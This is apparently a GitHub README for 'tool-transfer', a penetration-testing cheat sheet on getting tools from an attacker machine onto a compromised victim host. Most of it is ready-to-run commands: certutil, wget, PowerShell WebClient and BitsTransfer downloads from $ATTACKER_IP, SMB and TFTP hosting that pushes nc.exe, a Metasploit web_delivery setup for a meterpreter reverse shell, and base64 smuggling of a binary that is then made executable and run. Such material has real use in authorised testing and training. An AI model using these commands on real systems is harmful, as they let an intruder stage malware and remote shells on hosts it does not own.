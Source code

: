 # tool-transfer

In the beginning of my journey I was struggling with getting my scripts and programs from one machine to another. In this repo my objective is to find every way you can transfer your tools!

### HTTP

Set up an HTTP server on your attacker machine and download the files from the victim machine. The hosted file must be in the same directory where you execute this command.

- `port=8888; python3 -m http.server      $port`
- `port=8888; python  -m SimpleHTTPServer $port`

From the victim machine you can use any browser you want to navigate to the IP address and download the files or you can use the following commands:

### CMD

- `wget http://$attacker_address/$filename`
- `certutil -urlcache -split -f "http://$attacker_ip:$port/$filename" $output-filename`


### Powershell

- `powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATTACKER_IP:$port/$filename','$output-filename')"`
- `curl http://$attacker_address/$filename -O $output-filename`
- `Invoke-WebRequest http://$attacker_address/$filename -O $output-filename`

- `powershell.exe -c (Start-BitsTransfer -Source "http://$attacker_ip/$filename -Destination C:\temp\$filename")`

### SSH

If you have an SSH session open, then you can use the SCP command to download files. To download/upload directories use the -r (recursive) switch

Downloading files from the host:

- `scp username@from_host:file.txt /local/directory/`

Uploading files to the host:

- `scp file.txt username@to_host:/remote/directory/`

### FTP

Set up an FTP server on your attacker machine:

note: (you might install `pyftpdlib` with `apt-get install python-pyftpdlib` first)
`python -m pyftpdlib 21`

ftp to the attacker machine and use the GET command to download files.

- `ftp $attacker_ip_ address`

To upload files use the `-w` switch to enable anonymous write and the PUT command.

### TFTP

Set a tftp server on your attacker machine using the following command:

- `atftpd --daemon --port 69 root-dir`

where atftpd is the tftp server we want to execute, we execute are gonna execute it as a service (daemon) on port 89 and root-directory will be the directory where the files are which we want to transfer.

To download the hosted files use:

- `tftp -i $attacker_ip GET file`

To upload files use the same command with the PUT argument.

### SMB

You can host files via SMB, use the smbserver.py script which is part of the impacket project with the following command

`smbserver.py $share_name $shared_directory`

- `smbserver.py share /usr/share/transfer`

If you want to share the current directory use the pwd command.

- `smbserver.py $share_name pwd`

To download the files use the following command:

`copy \\$attacker_ip\$share_name\$file_name $out_filename`

e.g: `copy \\192.168.0.122\share\nc.exe nc.exe`

### Metasploit

You can use the web_delivery method to transfer reverse shells. Type the following commands inside metasploit.

```
use multi/script/web delivery
set payload to windows/meterpreter/reverse_tcp
set target PSH (powershell)
set lhost eth0
```

localhost and srvhost are the same

if you are connected to the target network via VPN use the tun0 interface instead of eth0. srvhost is the ip address serving the malicious script, lhost is where the call-back will happen from the reverse-shell. In this example I used a Meterpreter shell but you choose whatever shell type you like.


## Encodings

### Base64

Another cool trick is to encode your script, using base64, then copy-paste it between sessions.

```
python -c 'print(__import__("base64").b64encode(open("file_name", "rb").read()))'
echo "base64_encoded_script" > output.txt
base64 -d output.txt > out_filename
chmod +x out_filename
./out_filename
```

you can also use bash:
- `base64 plaintext_file`
- `cat base64_encoded_file | base64 -d`


So we encoded the binary, copy-pasted the base64 string into a text file using echo, \
then decrypted it with the base64 utility using the -d switch (decrypt) to a single file. \
We made it executable with the chmod +x command than executed it.

It works well on smaller scripts, but copy pasting the string of a complex program could crash the shell.




